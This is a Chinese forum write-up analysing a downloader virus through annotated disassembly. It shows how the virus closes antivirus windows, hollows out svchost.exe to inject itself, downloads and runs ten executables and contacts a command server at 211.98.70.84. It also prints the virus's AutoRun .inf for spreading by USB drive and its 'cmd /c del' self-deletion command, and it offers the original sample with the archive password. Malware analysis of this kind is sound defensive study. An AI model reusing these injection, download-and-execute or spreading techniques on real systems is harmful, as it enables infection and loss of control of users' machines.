


# 僵尸替换执行

> 原文：[`www.pediy.com/kssd/pediy12/131351.html`](https://www.pediy.com/kssd/pediy12/131351.html)

标 题: 【原创】僵尸替换执行  
作 者: 苏  
时 间: 2011.3.25.16.47  
链 接: http://bbs.pediy.com/showthread.php?t=131351  
  
【文章标题】: 僵尸替换执行  
【文章作者】: 苏  
【软件名称】: 5.V  
【软件大小】: 11.9KB  
【下载地址】: 见以下附件   
【保护方式】: UPX  
【编写语言】: Borland Delphi 6.0 - 7.0  
【使用工具】: PEID,OD,IDA  
【操作平台】: D-Windows XP3  
【连接地址】: http://bbs.pediy.com/showthread.php?t=131351  
【程序介绍】: 一个病毒程序  
【作者声明】: 在逆向中学习  
  
此病毒主要是一个下载者  
本来还有个 upx 的壳  
不过壳已经被扒下了。而忘了吧原本给丢了。。  
结果导致现在硬盘里只有扒过壳的程序。。。。  
所有无法从脱壳那开始写。。。  
刚点开程序时  
扫了下字符串  
发现如下的可疑字符串  

引用: C:\\Program Files\\WindowsUpdate\\sys3.exe   
C:\\Program Files\\WindowsUpdate\\sys4.exe   
C:\\Program Files\\WindowsUpdate\\sys5.exe   
C:\\Program Files\\WindowsUpdate\\sys6.exe   
C:\\Program Files\\WindowsUpdate\\sys7.exe   
C:\\Program Files\\WindowsUpdate\\sys8.exe   
C:\\Program Files\\WindowsUpdate\\sys9.exe   
C:\\Program Files\\WindowsUpdate\\sys10.exe  

看到这，心理就有个底了，琢磨着 10 有 89 是个下载者吧  
于是慢慢用 OD 看下去  
1.首先还是利用 CreateMutex 去尝试创建一个互斥量，然后通过 GetlastError()，如果返回 0XB7 号错误（即当文件已存在时，无法创建该文件。 ）就自退出  
代码:

```
131458B8 >/$  55            push    ebp
131458B9  |.  8BEC          mov     ebp, esp
131458BB  |.  83C4 E4       add     esp, -1C
131458BE  |.  53            push    ebx
131458BF  |.  56            push    esi
131458C0  |.  33C0          xor     eax, eax
131458C2  |.  8945 E8       mov     dword ptr \[ebp-18\], eax
131458C5  |.  8945 E4       mov     dword ptr \[ebp-1C\], eax
131458C8  |.  8945 EC       mov     dword ptr \[ebp-14\], eax
131458CB  |.  B8 60581413   mov     eax, 13145860
131458D0  |.  E8 BFE4FFFF   call    13143D94
131458D5  |.  33C0          xor     eax, eax
131458D7  |.  55            push    ebp
131458D8  |.  68 3E5A1413   push    13145A3E
131458DD  |.  64:FF30       push    dword ptr fs:\[eax\]
131458E0  |.  64:8920       mov     dword ptr fs:\[eax\], esp
131458E3  |.  68 4C5A1413   push    13145A4C                         ;  ASCII "dxdown"
131458E8  |.  6A FF         push    -1
131458EA  |.  6A 00         push    0
131458EC  |.  E8 67E5FFFF   call    13143E58                         ;  通过创建互斥量，来保证内存中只有一个实例
131458F1  |.  E8 D2E5FFFF   call    <jmp.&KERNEL32.GetLastError>     ; \[GetLastError
131458F6  |.  3D B7000000   cmp     eax, 0B7
131458FB  |.  75 05         jnz     short 13145902
131458FD  |.  E8 FADBFFFF   call    131434FC                         ;  已存在实例，退出
13145902  |>  B0 01         mov     al, 1
13145904  |.  E8 DBEBFFFF   call    131444E4                         ;  创建一个工作线程
13145909  |.  B8 AC761413   mov     eax, 131476AC
1314590E  |.  BA 44000000   mov     edx, 44
13145913  |.  E8 60E6FFFF   call    13143F78

```

  
2.然后创建一个工作线程，我们去看下线程做了什么，只是利用 timeSetEvent 函数启动一个新的工作进程 2  
代码:

```
131444B8   .  6A 01         push    1                                ;  线程 1
131444BA   .  6A 00         push    0
131444BC   .  68 DC431413   push    131443DC                         ;  线程 2
131444C1   .  6A 00         push    0
131444C3   .  6A 01         push    1
131444C5   .  E8 2EFBFFFF   call    <jmp.&winmm.timeSetEvent>        ;  启动线程 2
131444CA   .  A3 78761413   mov     dword ptr \[13147678\], eax
131444CF   >  6A 00         push    0                                ; /MsgFilterMax = 0
131444D1   .  6A 00         push    0                                ; |MsgFilterMin = 0
131444D3   .  6A 00         push    0                                ; |hWnd = NULL
131444D5   .  68 7C761413   push    1314767C                         ; |pMsg = 5.1314767C
131444DA   .  E8 71FAFFFF   call    <jmp.&user32.GetMessageA>        ; \\GetMessageA
131444DF   .  85C0          test    eax, eax
131444E1   .^ 75 EC         jnz     short 131444CF
131444E3   .  C3            retn

```

3.在看下工作进程 2 部分，它是循环查找几个杀软的窗口，然后模拟去点击  
代码:

```
131443DC  /.  55            push    ebp                              ;  线程 2、
131443DD  |.  8BEC          mov     ebp, esp
131443DF  |.  53            push    ebx
131443E0  |.  6A 00         push    0                                ; /Title = NULL
131443E2  |.  68 6C441413   push    1314446C                         ; |Class = "AVP.Void"
131443E7  |.  E8 54FBFFFF   call    <jmp.&user32.FindWindowA>        ; \\FindWindowA
131443EC  |.  85DB          test    ebx, ebx
131443EE  |.  74 12         je      short 13144402
131443F0  |.  6A 00         push    0                                ; /lParam = 0
131443F2  |.  68 60F00000   push    0F060                            ; |wParam = F060
131443F7  |.  68 12010000   push    112                              ; |Message = WM\_SYSCOMMAND
131443FC  |.  53            push    ebx                              ; |hWnd
131443FD  |.  E8 66FBFFFF   call    <jmp.&user32.SendMessageA>       ; \\SendMessageA
13144402  |>  6A 00         push    0                                ; /Title = NULL
13144404  |.  68 78441413   push    13144478                         ; |Class = "AVP.Product\_Notification"
13144409  |.  E8 32FBFFFF   call    <jmp.&user32.FindWindowA>        ; \\FindWindowA
1314440E  |.  8BD8          mov     ebx, eax
13144410  |.  85DB          test    ebx, ebx
13144412  |.  74 12         je      short 13144426
13144414  |.  6A 00         push    0                                ; /lParam = 0
13144416  |.  68 60F00000   push    0F060                            ; |wParam = F060
1314441B  |.  68 12010000   push    112                              ; |Message = WM\_SYSCOMMAND
13144420  |.  53            push    ebx                              ; |hWnd
13144421  |.  E8 42FBFFFF   call    <jmp.&user32.SendMessageA>       ; \\SendMessageA
13144426  |>  6A 00         push    0                                ; /Title = NULL
13144428  |.  68 94441413   push    13144494                         ; |Class = "Q360SafeMonClass"
1314442D  |.  E8 0EFBFFFF   call    <jmp.&user32.FindWindowA>        ; \\FindWindowA
13144432  |.  85C0          test    eax, eax
13144434  |.  74 12         je      short 13144448
13144436  |.  6A 00         push    0                                ; /lParam = 0
13144438  |.  68 60F00000   push    0F060                            ; |wParam = F060
1314443D  |.  68 12010000   push    112                              ; |Message = WM\_SYSCOMMAND
13144442  |.  50            push    eax                              ; |hWnd
13144443  |.  E8 20FBFFFF   call    <jmp.&user32.SendMessageA>       ; \\SendMessageA
13144448  |>  6A 00         push    0                                ; /Title = NULL
1314444A  |.  68 A8441413   push    131444A8                         ; |Class = "AVP.AlertDialog"
1314444F  |.  E8 ECFAFFFF   call    <jmp.&user32.FindWindowA>        ; \\FindWindowA
13144454  |.  85C0          test    eax, eax
13144456  |.  74 0D         je      short 13144465
13144458  |.  6A 00         push    0                                ; /lParam = 0
1314445A  |.  68 98411413   push    13144198                         ; |Callback = 5.13144198
1314445F  |.  50            push    eax                              ; |hParent
13144460  |.  E8 D3FAFFFF   call    <jmp.&user32.EnumChildWindows>   ; \\EnumChildWindows
13144465  |>  5B            pop     ebx
13144466  |.  5D            pop     ebp
13144467  \\.  C2 1400       retn    14
1314446A      00            db      0

```

4.好了继续朝下看，下面就用到一种比较猥琐的方法了，它先启动一个进程，  
路径为 c:\\windows\\system32\\svchost.exe，并且注意它的传参是 CREATE\_SUSPENDED  
也就是启动后，立即挂起，此时我们可以看出这个进程还是属于我们的用户名  
  
  
  
  
然后将自己的代码注入其中，设置进程环境，并将 EIP 设置为 0x13144e88，然后再启动，这应该就是所谓的僵尸替代吧  
我们在看一眼这个 svchost 进程,它的从属已经是系统进程了。  
  
  
  
  
  
代码:

```
13145951  |.  50            push    eax                              ; |CommandLine
13145952  |.  6A 00         push    0                                ; |ModuleFileName = NULL
13145954  |.  E8 1FE5FFFF   call    <jmp.&KERNEL32.CreateProcessA>   ; \\CreateProcessA
13145959  |.  85C0          test    eax, eax                         ;  创建一个 svchost.exe 进程，并且设置为 CREATE\_SUSPENDED
1314595B  |.  0F84 C2000000 je      13145A23
13145961  |.  6A 00         push    0                                ; /pModule = NULL
13145963  |.  E8 68E5FFFF   call    <jmp.&KERNEL32.GetModuleHandleA> ; \\GetModuleHandleA
13145968  |.  8BD8          mov     ebx, eax
1314596A  |.  8B43 3C       mov     eax, dword ptr \[ebx+3C\]
1314596D  |.  03C3          add     eax, ebx
1314596F  |.  83C0 04       add     eax, 4
13145972  |.  83C0 14       add     eax, 14
13145975  |.  8B70 38       mov     esi, dword ptr \[eax+38\]          ;  下面的将自己的代码注入到 svchost.exe 里，然后恢复线程
13145978  |.  6A 40         push    40                               ; /flProtect = 40 (64.)
1314597A  |.  68 00300000   push    3000                             ; |flAllocationType = 3000 (12288.)
1314597F  |.  56            push    esi                              ; |dwSize
13145980  |.  53            push    ebx                              ; |lpAddress
13145981  |.  A1 F0761413   mov     eax, dword ptr \[131476F0\]        ; |
13145986  |.  50            push    eax                              ; |hProcess => 0000005C (window)
13145987  |.  E8 8CE5FFFF   call    <jmp.&KERNEL32.VirtualAllocEx>   ; \\VirtualAllocEx
1314598C  |.  68 00771413   push    13147700                         ; /pBytesWritten = 5.13147700
13145991  |.  56            push    esi                              ; |BytesToWrite
13145992  |.  53            push    ebx                              ; |Buffer
13145993  |.  50            push    eax                              ; |Address
13145994  |.  A1 F0761413   mov     eax, dword ptr \[131476F0\]        ; |
13145999  |.  50            push    eax                              ; |hProcess => 0000005C (window)
1314599A  |.  E8 89E5FFFF   call    <jmp.&KERNEL32.WriteProcessMemor>; \\WriteProcessMemory
1314599F  |.  C705 04771413>mov     dword ptr \[13147704\], 10007
131459A9  |.  68 04771413   push    13147704                         ; /pContext = 5.13147704
131459AE  |.  A1 F4761413   mov     eax, dword ptr \[131476F4\]        ; |
131459B3  |.  50            push    eax                              ; |hThread => 0000007C (window)
131459B4  |.  E8 2FE5FFFF   call    <jmp.&KERNEL32.GetThreadContext> ; \\GetThreadContext
131459B9  |.  B8 884E1413   mov     eax, 13144E88
131459BE  |.  A3 BC771413   mov     dword ptr \[131477BC\], eax
131459C3  |.  68 04771413   push    13147704                         ; /pContext = 5.13147704
131459C8  |.  A1 F4761413   mov     eax, dword ptr \[131476F4\]        ; |
131459CD  |.  50            push    eax                              ; |hThread => 0000007C (window)
131459CE  |.  E8 3DE5FFFF   call    <jmp.&KERNEL32.SetThreadContext> ; \\SetThreadContext
131459D3  |.  A1 F4761413   mov     eax, dword ptr \[131476F4\]
131459D8  |.  50            push    eax                              ; /hThread => 0000007C (window)
131459D9  |.  E8 22E5FFFF   call    <jmp.&KERNEL32.ResumeThread>     ; \\ResumeThread

```

5.在看下注入替换到 svchost 里面的代码部分，很长的一部分，只截取一部分，就是下载我们开篇时候看到的那 10 个程序，然后执行  
  
代码:

```
13144E88   .  55            push    ebp                              ;  注入部分
13144E89   .  8BEC          mov     ebp, esp
13144E8B   .  53            push    ebx
13144E8C   .  56            push    esi
13144E8D   .  57            push    edi
13144E8E   .  68 60541413   push    13145460                         ; /FileName = "kernel32.dll"
13144E93   .  E8 60F0FFFF   call    <jmp.&KERNEL32.LoadLibraryA>     ; \\LoadLibraryA
13144E98   .  68 70541413   push    13145470                         ; /FileName = "user32.dll"
13144E9D   .  E8 56F0FFFF   call    <jmp.&KERNEL32.LoadLibraryA>     ; \\LoadLibraryA
13144EA2   .  68 7C541413   push    1314547C                         ; /FileName = "Shell32.dll"
13144EA7   .  E8 4CF0FFFF   call    <jmp.&KERNEL32.LoadLibraryA>     ; \\LoadLibraryA
13144EAC   .  A3 A4761413   mov     dword ptr \[131476A4\], eax
13144EB1   .  68 88541413   push    13145488                         ; /FileName = "urlmon.dll"
13144EB6   .  E8 3DF0FFFF   call    <jmp.&KERNEL32.LoadLibraryA>     ; \\LoadLibraryA
13144EBB   .  A3 A8761413   mov     dword ptr \[131476A8\], eax
13144EC0   .  68 94541413   push    13145494                         ; /ProcNameOrOrdinal = "ShellExecuteA"
13144EC5   .  A1 A4761413   mov     eax, dword ptr \[131476A4\]        ; |
13144ECA   .  50            push    eax                              ; |hModule => NULL
13144ECB   .  E8 08F0FFFF   call    <jmp.&KERNEL32.GetProcAddress>   ; \\GetProcAddress
13144ED0   .  A3 9C761413   mov     dword ptr \[1314769C\], eax
13144ED5   .  68 A4541413   push    131454A4                         ; /ProcNameOrOrdinal = "URLDownloadToFileA"
13144EDA   .  A1 A8761413   mov     eax, dword ptr \[131476A8\]        ; |
13144EDF   .  50            push    eax                              ; |hModule => NULL
13144EE0   .  E8 F3EFFFFF   call    <jmp.&KERNEL32.GetProcAddress>   ; \\GetProcAddress
13144EE5   .  A3 A0761413   mov     dword ptr \[131476A0\], eax
13144EEA   .  33C0          xor     eax, eax
13144EEC   .  55            push    ebp
13144EED   .  68 194F1413   push    13144F19
13144EF2   .  64:FF30       push    dword ptr fs:\[eax\]
13144EF5   .  64:8920       mov     dword ptr fs:\[eax\], esp
13144EF8   .  6A 00         push    0
13144EFA   .  6A 00         push    0
13144EFC   .  68 B8541413   push    131454B8                         ;  ASCII "C:\\Program Files\\WindowsUpdate\\sys.exe"
13144F01   .  A1 A4601413   mov     eax, dword ptr \[131460A4\]
13144F06   .  50            push    eax
13144F07   .  6A 00         push    0
13144F09   .  FF15 A0761413 call    dword ptr \[131476A0\]
13144F0F   .  33C0          xor     eax, eax
13144F11   .  5A            pop     edx
13144F12   .  59            pop     ecx
13144F13   .  59            pop     ecx
13144F14   .  64:8910       mov     dword ptr fs:\[eax\], edx
13144F17   .  EB 0A         jmp     short 13144F23
13144F19   .^ E9 3EE0FFFF   jmp     13142F5C
13144F1E   .  E8 F1E1FFFF   call    13143114
13144F23   >  B8 E8541413   mov     eax, 131454E8                    ;  ASCII "C:\\Program Files\\WindowsUpdate\\sys.exe"
13144F28   .  E8 3BF1FFFF   call    13144068
13144F2D   .  84C0          test    al, al
13144F2F   .  74 44         je      short 13144F75
13144F31   .  33C0          xor     eax, eax
13144F33   .  55            push    ebp
13144F34   .  68 6B4F1413   push    13144F6B
13144F39   .  64:FF30       push    dword ptr fs:\[eax\]
13144F3C   .  64:8920       mov     dword ptr fs:\[eax\], esp
13144F3F   .  6A 05         push    5
13144F41   .  6A 00         push    0
13144F43   .  6A 00         push    0
13144F45   .  68 B8541413   push    131454B8                         ;  ASCII "C:\\Program Files\\WindowsUpdate\\sys.exe"
13144F4A   .  68 10551413   push    13145510                         ;  ASCII "open"
13144F4F   .  6A 00         push    0
13144F51   .  FF15 9C761413 call    dword ptr \[1314769C\]
13144F57   .  B8 D0070000   mov     eax, 7D0
13144F5C   .  E8 EFF1FFFF   call    13144150
13144F61   .  33C0          xor     eax, eax
13144F63   .  5A            pop     edx
13144F64   .  59            pop     ecx
13144F65   .  59            pop     ecx
13144F66   .  64:8910       mov     dword ptr fs:\[eax\], edx
13144F69   .  EB 0A         jmp     short 13144F75
13144F6B   .^ E9 ECDFFFFF   jmp     13142F5C
13144F70   .  E8 9FE1FFFF   call    13143114
13144F75   >  33C0          xor     eax, eax
13144F77   .  55            push    ebp
13144F78   .  68 A44F1413   push    13144FA4
13144F7D   .  64:FF30       push    dword ptr fs:\[eax\]
13144F80   .  64:8920       mov     dword ptr fs:\[eax\], esp
13144F83   .  6A 00         push    0
13144F85   .  6A 00         push    0
13144F87   .  68 18551413   push    13145518                         ;  ASCII "C:\\Program Files\\WindowsUpdate\\sys2.exe"
13144F8C   .  A1 A8601413   mov     eax, dword ptr \[131460A8\]
13144F91   .  50            push    eax
13144F92   .  6A 00         push    0
13144F94   .  FF15 A0761413 call    dword ptr \[131476A0\]
13144F9A   .  33C0          xor     eax, eax
13144F9C   .  5A            pop     edx
13144F9D   .  59            pop     ecx
13144F9E   .  59            pop     ecx
13144F9F   .  64:8910       mov     dword ptr fs:\[eax\], edx
13144FA2   .  EB 0A         jmp     short 13144FAE
13144FA4   .^ E9 B3DFFFFF   jmp     13142F5C
13144FA9   .  E8 66E1FFFF   call    13143114
13144FAE   >  B8 48551413   mov     eax, 13145548                    ;  ASCII "C:\\Program Files\\WindowsUpdate\\sys2.exe"
13144FB3   .  E8 B0F0FFFF   call    13144068
13144FB8   .  84C0          test    al, al
13144FBA   .  74 44         je      short 13145000
13144FBC   .  33C0          xor     eax, eax
13144FBE   .  55            push    ebp
13144FBF   .  68 F64F1413   push    13144FF6
13144FC4   .  64:FF30       push    dword ptr fs:\[eax\]
13144FC7   .  64:8920       mov     dword ptr fs:\[eax\], esp
13144FCA   .  6A 05         push    5
13144FCC   .  6A 00         push    0
13144FCE   .  6A 00         push    0
13144FD0   .  68 18551413   push    13145518                         ;  ASCII "C:\\Program Files\\WindowsUpdate\\sys2.exe"
13144FD5   .  68 10551413   push    13145510                         ;  ASCII "open"
13144FDA   .  6A 00         push    0
13144FDC   .  FF15 9C761413 call    dword ptr \[1314769C\]
13144FE2   .  B8 D0070000   mov     eax, 7D0
13144FE7   .  E8 64F1FFFF   call    13144150
13144FEC   .  33C0          xor     eax, eax
13144FEE   .  5A            pop     edx
13144FEF   .  59            pop     ecx
13144FF0   .  59            pop     ecx
13144FF1   .  64:8910       mov     dword ptr fs:\[eax\], edx
13144FF4   .  EB 0A         jmp     short 13145000
13144FF6   .^ E9 61DFFFFF   jmp     13142F5C
13144FFB   .  E8 14E1FFFF   call    13143114
13145000   >  33C0          xor     eax, eax
13145002   .  55            push    ebp
13145003   .  68 2F501413   push    1314502F
13145008   .  64:FF30       push    dword ptr fs:\[eax\]
1314500B   .  64:8920       mov     dword ptr fs:\[eax\], esp
1314500E   .  6A 00         push    0
13145010   .  6A 00         push    0
13145012   .  68 70551413   push    13145570                         ;  ASCII "C:\\Program Files\\WindowsUpdate\\sys3.exe"

```

  
6.然后在主动向服务器发起连接，接受服务器命令，执行动作  
  
代码:

```
7668E7A9   /0F85 140E0000   jnz     7668F5C3
7668E7AF   |8B86 2C010000   mov     eax, dword ptr \[esi+12C\]
7668E7B5   |FF70 04         push    dword ptr \[eax+4\]
7668E7B8   |FF30            push    dword ptr \[eax\]
7668E7BA   |FF77 18         push    dword ptr \[edi+18\]               ; 开始向 IP 为 211.98.70.84 地址主动连接
7668E7BD   |FF15 A0987076   call    dword ptr \[767098A0\]             ; WS2\_32.bind
7668E7C3   |83F8 FF         cmp     eax, -1
7668E7C6   |74 41           je      short 7668E809
7668E7C8   |8BCF            mov     ecx, edi
7668E7CA   |E8 333E0000     call    76692602
7668E7CF   |8B4E 24         mov     ecx, dword ptr \[esi+24\]
7668E7D2   |85C9            test    ecx, ecx
7668E7D4   |74 06           je      short 7668E7DC
7668E7D6   |57              push    edi
7668E7D7   |E8 14420000     call    766929F0
7668E7DC   |8BCE            mov     ecx, esi
7668E7DE   |C746 30 0400000>mov     dword ptr \[esi+30\], 4
7668E7E5   |E8 FB300000     call    766918E5
7668E7EA   |837F 28 00      cmp     dword ptr \[edi+28\], 0
7668E7EE   |8B86 2C010000   mov     eax, dword ptr \[esi+12C\]
7668E7F4   |FF70 0C         push    dword ptr \[eax+C\]
7668E7F7   |FF70 08         push    dword ptr \[eax+8\]
7668E7FA   |0F85 D6060200   jnz     766AEED6
7668E800   |FF77 18         push    dword ptr \[edi+18\]
7668E803   |FF15 A8987076   call    dword ptr \[767098A8\]             ; WS2\_32.connect
7668E809   |85C0            test    eax, eax
7668E80B   |0F84 EF700000   je      76695900
7668E811   |FF15 8C987076   call    dword ptr \[7670988C\]             ; WS2\_32.WSAGetLastError
7668E817   |F647 1C 40      test    byte ptr \[edi+1C\], 40
7668E81B   |0F84 B4700100   je      766A58D5
7668E821   |3D 33270000     cmp     eax, 2733
7668E826   |0F85 A9700100   jnz     766A58D5

```

  
7.在回到主病毒程序里，这货注入完了后，开始在 C 盘下面新建一个 auto.ini  
内容为，这样当有 U 盘插入的时候，可以复制自己进行传播  
代码:

```
\[AutoRun\] 
open=system.exe 
shell\\open=打开(&O) 
shell\\open\\Command=system.exe 
shell\\open\\Default=1 
shell\\explore=资源管理器(&X) 
shell\\explore\\Command=system.exe

```

  
代码:

```
1314470E  |.  33D2          xor     edx, edx
13144710  |.  8B45 EC       mov     eax, dword ptr \[ebp-14\]
13144713  |.  E8 DCF1FFFF   call    131438F4
13144718  |.  8D45 F8       lea     eax, dword ptr \[ebp-8\]
1314471B  |.  B9 7C491413   mov     ecx, 1314497C                    ;  ASCII "\\auto.inf"
13144720  |.  8B55 EC       mov     edx, dword ptr \[ebp-14\]
13144723  |.  E8 5CF0FFFF   call    13143784
13144728  |.  6A 00         push    0
1314472A  |.  8B45 F8       mov     eax, dword ptr \[ebp-8\]
1314472D  |.  E8 6AF1FFFF   call    1314389C
13144732  |.  50            push    eax                              ; |FileName
13144733  |.  E8 D0F7FFFF   call    <jmp.&KERNEL32.SetFileAttributes>; \\SetFileAttributesA
13144738  |.  8B55 F8       mov     edx, dword ptr \[ebp-8\]
1314473B  |.  8D85 20FEFFFF lea     eax, dword ptr \[ebp-1E0\]
13144741  |.  E8 AEE2FFFF   call    131429F4
13144746  |.  8D85 20FEFFFF lea     eax, dword ptr \[ebp-1E0\]
1314474C  |.  E8 3FE0FFFF   call    13142790                         ;  创建 auto.inf 文件
13144751  |.  E8 26DEFFFF   call    1314257C
13144756  |.  BA 90491413   mov     edx, 13144990                    ;  ASCII "\[AutoRun\]"
1314475B  |.  8D85 20FEFFFF lea     eax, dword ptr \[ebp-1E0\]
13144761  |.  E8 C2F2FFFF   call    13143A28
13144766  |.  E8 A5E5FFFF   call    13142D10
1314476B  |.  E8 0CDEFFFF   call    1314257C
13144770  |.  33D2          xor     edx, edx                         ;  下面是向里面写入内容
13144772  |.  8D85 20FEFFFF lea     eax, dword ptr \[ebp-1E0\]
13144778  |.  E8 ABF2FFFF   call    13143A28
1314477D  |.  E8 8EE5FFFF   call    13142D10
13144782  |.  E8 F5DDFFFF   call    1314257C
13144787  |.  BA A4491413   mov     edx, 131449A4                    ;  ASCII "open=system.exe"
1314478C  |.  8D85 20FEFFFF lea     eax, dword ptr \[ebp-1E0\]
13144792  |.  E8 91F2FFFF   call    13143A28
13144797  |.  E8 74E5FFFF   call    13142D10
1314479C  |.  E8 DBDDFFFF   call    1314257C
131447A1  |.  BA BC491413   mov     edx, 131449BC
131447A6  |.  8D85 20FEFFFF lea     eax, dword ptr \[ebp-1E0\]
131447AC  |.  E8 77F2FFFF   call    13143A28
131447B1  |.  E8 5AE5FFFF   call    13142D10
131447B6  |.  E8 C1DDFFFF   call    1314257C
131447BB  |.  BA D8491413   mov     edx, 131449D8                    ;  ASCII "shell\\open\\Command=system.exe"
131447C0  |.  8D85 20FEFFFF lea     eax, dword ptr \[ebp-1E0\]
131447C6  |.  E8 5DF2FFFF   call    13143A28
131447CB  |.  E8 40E5FFFF   call    13142D10
131447D0  |.  E8 A7DDFFFF   call    1314257C
131447D5  |.  BA 004A1413   mov     edx, 13144A00                    ;  ASCII "shell\\open\\Default=1"

```

8 最后病毒使用 CMD 命令删除自身  
  
代码:

```
131459EF  |.  E8 C4E4FFFF   call    <jmp.&KERNEL32.GetCommandLineA>  ; \[GetCommandLineA
131459F4  |.  8BD0          mov     edx, eax
131459F6  |.  8D45 E4       lea     eax, dword ptr \[ebp-1C\]          ;  使用 CMD /C DEL 命令 删除自身
131459F9  |.  E8 F2DCFFFF   call    131436F0
131459FE  |.  8B4D E4       mov     ecx, dword ptr \[ebp-1C\]
13145A01  |.  8D45 E8       lea     eax, dword ptr \[ebp-18\]
13145A04  |.  BA 5C5A1413   mov     edx, 13145A5C                    ;  ASCII "cmd /c del "
13145A09  |.  E8 76DDFFFF   call    13143784
13145A0E  |.  8B45 E8       mov     eax, dword ptr \[ebp-18\]
13145A11  |.  E8 86DEFFFF   call    1314389C
13145A16  |.  50            push    eax                              ; |CmdLine
13145A17  |.  E8 04E5FFFF   call    <jmp.&KERNEL32.WinExec>          ; \\WinExec
13145A1C  |.  6A 00         push    0                                ; /ExitCode = 0
13145A1E  |.  E8 6DE4FFFF   call    <jmp.&KERNEL32.ExitProcess>      ; \\ExitProcess

```

上传的附件
|  || 病毒原本.rar(解压密码：muma)  
 |